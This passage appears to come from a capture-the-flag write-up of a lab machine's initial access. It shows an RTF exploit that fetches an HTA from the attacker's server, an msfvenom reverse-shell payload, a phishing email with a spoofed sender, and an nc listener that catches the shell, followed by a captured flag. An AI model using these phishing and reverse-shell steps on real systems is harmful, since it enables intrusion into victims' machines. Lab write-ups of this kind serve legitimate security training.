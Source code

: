 ## Initial Access

Let's create a malicious `rtf` and send it to `nico` using the `smtp` server.

Using `searchsploit`, we get an interesting exploit:

![](../assets/Pasted%20image%2020241124073857.png)

Generate the `rtf`:

```bash
$ python2 41894.py -M gen -w yes.rtf -u http://10.10.14.11:8000/bad.hta            
Generating normal RTF payload.

Generated yes.rtf successfully
```

Generate the `hta` with `msfvenom`:

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.11 lport=443 -f hta-psh -o bad.hta
```

Now, using `sendEmail`, we send the `yes.rtf` to `nico` and create a listener on port `443`:

```bash
$ sendEmail -t nico@megabank.com -u open -m yes -a yes.rtf -s 10.10.10.77 -f paco@megabank.com
Nov 24 08:04:58 kali sendEmail[861336]: Email was sent successfully!
```

Start a listener and a Python server and wait for `nico` to open the mail:

```bash
$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.77] 63152
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\nico>whoami
nico
```

Get the flag:

```shell
C:\Users\nico\Desktop>type user.txt
type user.txt
3d2c48a0d4a7fab39ef9536da3109a84
```
